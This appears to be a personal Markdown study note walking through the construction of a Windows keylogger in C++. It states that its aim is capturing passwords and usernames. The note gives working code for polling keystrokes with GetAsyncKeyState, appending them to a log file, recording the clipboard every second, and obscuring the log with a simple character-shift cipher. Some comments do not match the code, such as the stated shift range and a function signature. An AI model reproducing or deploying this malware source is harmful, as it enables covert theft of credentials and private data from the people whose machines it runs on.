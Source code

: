 **Title:** ILY - Keylogger
**Tags:** [[ILY - Easy]]
**Topics:** #CPP #Keylogger

---
# ILY - Keylogger
# General
## First Iteration
### Keylogger
#### Function: ``startLogging()``
It is not possible to know which key has been pressed after it happened, so the only way to detect it is to check all possible valid keys in the ASCII symbols every time. Due to our goal of capturing passwords and usernames, the last valid symbol is "¡", which has the number 173 in the ASCII standard.

Now that we are checking all possible characters, it is important to determine how we are going to get that “alarm” informing us that a key on the keyboard has been pressed. This is where `GetAsyncKeyState()` comes into play.

`GetKeyState()` Will return that a key has been pressed only if it happens in the same “instant”; otherwise, it will not detect it. This isn't really convenient in our case, so we will use `GetAsyncKeyState()` instead, because it can retrieve the state of a key pressed at any time.

It's essential to understand how `GetAsyncKeyState()` works and the best way to implement it. You will see three types of implementations:
- `GetAsyncKeyState(key) == -32767`: Verifies if a key has been pressed and released.
- `GetAsyncKeyState(key) & 0x0001`: Verifies if a key has been pressed since the last call.
- `GetAsyncKeyState(key) & 0x8000`: Verifies if a key is currently being pressed.
[//]: Note that (0xFFFF8001)Hexa == (-32767)Ca2

```ad-question
I do not fully understand why the keylogger only works correctly when I set `0xFFFF8001` and why it captures the key while I maintain it pressed.
```

Finally, for readability purposes, we want to process special characters to log them in a special format. Otherwise, we just log the key directly.

```c++
for (char key = 8; key<=173; key++) {
	if (GetAsyncKeyState(key) == 0xFFFF8001) {
	    if (not specialKey(key)) {
            string str(1, key);
            save(str);
        }
    }
}
```

#### Function: ``save(const string& input)``
Firstly, we need to create a new datatype to work with files. For this reason, we must include `#include <iostream>` and `#include <fstream>`.

```ad-info
**fstream**
This data type represents the file stream generally, and has the capabilities of both ofstream and ifstream which means it can create files, write information to files, and read information from files.
```

Afterward we will have to open the file to append the `input` in it. 
`fstream` will create the file if it does not exist, and if any no problem occurs, we will append the input. It is good practice to close the file every time after performing file operations.

```c++
void save(const string& input) {
    fstream LogFile;
    
    LogFile.open("log.txt", fstream::app);  // If it does not exists, it will create it.
    
    if (LogFile.is_open()) {
		LogFile << input;
		LogFile.close();
	}
}
```

## Second Iteration
### Detect Upper and Lower cases
#### Function: `isCapsLock()` and `isShift()`
``GetKeyState(VK_CAPITAL)`` returns a short where the least significant bit (LSB) represents the toggle state. If the LSB is 1, Caps Lock is active.
```c++
bool isCapsLock() { 
	return (GetKeyState(VK_CAPITAL) & 1) != 0; 
}
```

``GetKeyState(VK_SHIFT)`` Returns a short where the most significant bit (MSB) is set if the key is currently being pressed. The value 0x8000 corresponds to this MSB, indicating the physical press of the key.
```c++
bool isShift() { 
	return (GetKeyState(VK_SHIFT) & 0x8000) != 0; 
}
```

### Clipboard Monitoring
The clipboard monitoring functionality is designed to capture and log text data from the system clipboard periodically. This process involves checking the clipboard contents at regular intervals and logging any changes. 
[//]: Note that is not necessary to check the clipboard as frequent as the key status, so we will have to implement threats.


#### Function: `getClipboardText()`
The `getClipboardText` function retrieves the text currently stored in the system clipboard. It utilizes the Windows API to access the clipboard and fetches any Unicode text available.

- **Opening the Clipboard**: The function begins by calling `OpenClipboard(nullptr)`. This function attempts to open the clipboard for examination and prevents other applications from modifying it until it is closed.
- **Fetching Data**: The function uses `GetClipboardData(CF_UNICODETEXT)` to retrieve the handle to the clipboard data in Unicode text format. If no text is available, it returns an empty string.
- **Converting Data**: If data is present, the function locks the global memory to access the text using `GlobalLock(hData)`, converting the wide character string (`wstring`) to a standard string (`string`).
- **Closing the Clipboard**: After retrieving the text, the function releases the global memory lock using `GlobalUnlock(hData)` and closes the clipboard using `CloseClipboard()`.

```c++
string getClipboardText() {
    string text = "";

    if (!OpenClipboard(nullptr)) {
        return text;
    }

    HANDLE hData = GetClipboardData(CF_UNICODETEXT);
    if (hData != nullptr) {
        wchar_t* pwszText = static_cast<wchar_t*>(GlobalLock(hData));
        if (pwszText != nullptr) {
            wstring ws(pwszText);
            text = string(ws.begin(), ws.end());
            GlobalUnlock(hData);
        }
    }
    CloseClipboard();

    return text;
}
```


#### Function: `clipboardLogger(int key, atomic<bool>& running)`

The `clipboardLogger` function is responsible for periodically checking the clipboard for new content and logging it using an encryption mechanism.

- **Periodic Check**: It continuously runs in a loop controlled by an atomic boolean `running`. It sleeps for 1 second (`Sleep(1000)`) between checks to minimize system resource usage.
- **Detecting Changes**: It compares the current clipboard content with the previously logged content. If there is new content that differs from what was previously stored, it logs this content.
- **Logging and Encryption**: New clipboard content is logged by calling the `save` function, which encrypts the content using a simple character shift.

```c++
void clipboardLogger(int key) {
    string previousClipboardContent;

    while (true) {
        Sleep(1000);

        string currentClipboardContent = getClipboardText();

        if (!currentClipboardContent.empty() && currentClipboardContent != previousClipboardContent) {
            save("\n[+]Clipboard: " + currentClipboardContent + "\n", key);
            previousClipboardContent = currentClipboardContent;
        }
    }
}
```

### Encrypt and decrypt the logfile
#### Function: `save(const string& input, int key)`
If we want to encrypt the logfile we will need to modify how `save()` works. In the `main()` function it's set the "PIN" to make the shift as the Caesar cipher.

The loop `for (char c : input) { ... }` iterates over each character in the input string. For each character, a shift value is calculated using `int shift = 1 + key % 10;`, which ensures a shift between 0 and 9. This shift value is added to the character's ASCII code (`c + shift`) before writing it to the file.

```c++
void save(const string& input, int key) {
    // Open a file named "log.txt" in append and binary mode
    ofstream outFile("log.txt", ios::app | ios::binary);
    // Check if the file was opened successfully
    if (!outFile.is_open()) {
        // If the file couldn't be opened, output an error message and exit the function
        cout << "Error opening log file for writing." << endl;
        return;
    }

    // Loop through each character in the input string
    for (char c : input) {
        // Calculate a shift value between 0 and 9 based on the provided key
        int shift = 1 + key % 10;
        // Encrypt the character by adding the shift value to its ASCII code and write it to the file
        outFile.put(c + shift);
    }

    // Close the file to ensure the data is written and resources are freed
    outFile.close();
}
```